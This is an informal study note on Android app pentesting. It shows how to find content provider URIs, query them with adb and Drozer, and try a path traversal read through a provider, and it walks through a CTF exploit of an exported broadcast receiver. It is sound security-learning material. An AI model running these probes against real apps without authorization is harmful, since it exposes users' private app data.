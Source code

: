 - in pre [[Android/1. pre/content provider|content provider]] we talked about how to use content provider, but still need how to find app URIs, here how and where:
	- look for `<provider>` tag in `AndroidManifest.xml` 
	- URIs present in source code. use `grep "content://" -inR src_code/` 
- after list all URIs u can query it using adb:
	- `adb shell content query --uri <URI>`
	- `adb shell content query --uri "content://com.example.app/provider"`
- if data displayed back then u need to do one check before say content provider is not secure:
	- make query as normal user/app such `Drozer` (adb on emulator is root)
#### Drozer 
- have a client(on kali) and server(android app on mobile) 
- what ever command executed with Drozer privilege which is normal user.
- Drozer have only on permission: `Internet`.
- no external storage access, so it's shouldn't able to read from SD card unless u exploit something
##### install drozer
```shell
sudo apt install python2.7 python2.7-dev -y && curl -O https://bootstrap.pypa.io/pip/2.7/get-pip.py && sudo python2.7 get-pip.py
python2.7 -m pip install protobuf
python2.7 -m pip install pyopenssl
python2.7 -m pip install --upgrade setuptools 
python2.7 -m pip install twisted

wget https://github.com/mwrlabs/drozer/releases/download/2.4.4/drozer_2.4.4.deb
sudo dpkg -i drozer_2.4.4.deb
wget https://github.com/WithSecureLabs/drozer-agent/releases/download/2.5.2/agent-debug.apk
adb install agent-debug.apk
```
##### drozer connection
```shell
1. adb connect <ip>
2. lunch app in the emulator and enable emmbeded server
3. port forward: adb forward tcp:31415 tcp:31415
4. drozer console connect
5. dz>
```
##### drozer commands
```shell
? -> commands 
list -> list installed modules
most used modules:
run app.package.list #list installed apps packges
run app.package.attackserface #hunt low hungung frute
run app.package.backup # allowed backups
run app.package.debuggable # allewed debug
run app.package.info # info such package name
content provider modules:
app.provider.columns
            .finduri # list app uris 
            .downlaod
            .delete
            .query #query uri
            .read #read file
Broadcast Reciver
app.broadcast.sniff

others for activity, services, 
scanners for find leacked content providers, sqlinjections, path_traversal 
```
###### based on info retrains ether u have vuln or something interesting to start with
##### drozer example
##### unsecure content provider
```shell
bz> run app.provider.finduri <package_name> # find uris
dz> run app.provider.query <uri> #query a uri **if data displayed back then it's vuln**
dz> run app.provider.query content://com.exampl.app/provider --vertical
dz> run app.provider.read content://com.exampl.app/provider/../../../file # if the file disblayed then u find vuln content provider
```
##### unsecure Broadcast
here's demo and sol of `flagstore.apk` ctf
```shell
review decompiled app code:
1. reciver found : <receiver android:name="com.flagstore.ctf.flagstore.Send_to_Activity" android:exported="true"/>
2. which recive intent and start new activity
public void onReceive(Context context, Intent intent) {
        String msgText = intent.getStringExtra("msg");
        if (msgText.equalsIgnoreCase("OpenSesame"))
	        Intent outIntent = new Intent(context, CTFReceiver.class);
        .....
3. the new activty have btn, when pressed make broad cast intent:
button.setOnClickListener(new View.OnClickListener() { // from class: com.flagstore.ctf.flagstore.CTFReceiver.1
            @Override // android.view.View.OnClickListener
            public void onClick(View v) {
                Intent intent = new Intent();
                intent.setAction("com.flagstore.ctf.OUTGOING_INTENT");
                ...
                intent.putExtra("msg", output);
                CTFReceiver.this.sendBroadcast(intent);
so we 
1. fist send the intent: 
dz> run app.broadcast.send --component com.flagstore.ctf.flagstore com.flagstore.ctf.flagstore.Send_to_Activity --extra string "msg" "OpenSesame"
2. start sniffer and press btn in the app 
dz> run app.broadcast.sniff --action com.flagstore.ctf.OUTGOING_INTENT
[*] Output is updated once a second. Press Control+C to exit.

Action: com.flagstore.ctf.OUTGOING_INTENT
Raw: Intent { act=com.flagstore.ctf.OUTGOING_INTENT flg=0x10 (has extras) }
Extra: msg=CongratsGoodWorkYouFoundItIHopeYouUsedADBFlag:TheseIntentsAreFunAndEasyToUse (java.lang.String)
3. we have the flag: CongratsGoodWorkYouFoundItIHopeYouUsedADBFlag
```